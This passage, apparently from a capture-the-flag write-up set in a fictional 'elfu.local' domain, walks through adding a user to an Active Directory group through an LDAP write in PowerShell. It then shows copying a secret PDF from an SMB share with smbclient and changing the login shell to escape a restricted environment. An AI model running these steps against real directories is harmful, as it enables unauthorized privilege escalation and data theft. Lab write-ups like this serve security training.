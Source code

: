 ```powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "<USERNAME>"
$password = "<PASSWORD>"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

We can check to make sure it worked:

```powershell
Get-ADGroup -Identity 'ResearchDepartment' -Properties member | Select-Object -ExpandProperty member
```

The output contains our username, so we're good to go. (If it doesn't contain your username yet, wait a few minutes for it to propogate)

Type `exit` twice to exit the remote powershell session and then the initial powershell session, sending us back to the linux shell.

## Exfiltrate the File
Now all we have to do is get the file back onto our local machine so we can read it.

```bash
smbclient \\\\10.128.3.30\\research_dep
```

If we run `ls`, we can see the file we need.

```
.                                   D        0  Thu Dec  2 16:39:42 2021
..                                  D        0  Tue Dec 28 21:35:08 2021
SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021
```

Now let's get it to our home directory:

```bash
prompt OFF
mget SantaSecretToAWonderfulHolidaySeason.pdf
exit
```

If we change our login shell from that app we got dropped into to something like `/bin/bash`, we should be able to exfiltrate this file.

```bash
chsh
<ENTER YOUR PASSWORD>
/bin/bash
```
